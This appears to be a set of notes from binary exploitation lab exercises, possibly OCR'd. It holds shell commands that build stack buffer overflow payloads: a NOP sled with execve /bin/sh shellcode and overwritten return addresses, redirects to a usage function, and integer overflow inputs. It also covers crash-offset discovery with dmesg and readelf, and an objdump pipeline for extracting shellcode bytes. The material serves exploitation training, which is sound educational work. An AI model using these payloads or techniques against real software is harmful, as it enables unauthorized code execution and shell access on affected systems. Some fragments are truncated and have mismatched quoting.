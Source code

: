 ```bash
19
buffer: 0xfffac7a8 pivot: 0xfffac7bc
20
buffer: 0xffd5e3d8 pivot: 0xffd5e3ec
Congratulations! You win!

```


EX5:

```bash
./ex3 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA123456789 BB
#seg fault
#256+9bytes
# points to usage function
run $(python -c "print('A'*256 + ' '+ '\xee\x62\x55\x56')")


run $(python -c "print('A'*256 + '\xee\x62\x55\x56' + ' ' +'BV')")

```

```bash
$ /example4 $(python -c "print('A'*268)")     


#use dmesg to find segfault and ip overwrite
$ sudo dmesg | tail 

$ readelf -s example4 | grep -i "usage"   # any function


# payload
run $(python -c "print('\x90'*208   + '\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + '\x2c\xcf\xff\xff')"`

```

```

./integer_overflow -500000000000 $(python3 -c 'print("A"*50000+ "B"*4)')

./integer_overflow 65536 $(python3 -c 'print("A"*106+ "B"*4)')


```
run $(python -c "print('\x90'*208   + '\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + '\xfc\xce\xff\xff' * 10  )")


## shellcod extracter
```bash
objdump -d exit2.o | grep -Po '\s\K[a-f0-9]{2}(?=\s)' | sed 's/^/\\x/g' | perl -pe 's/\r?\n//' | sed 's/$/\n/'
```
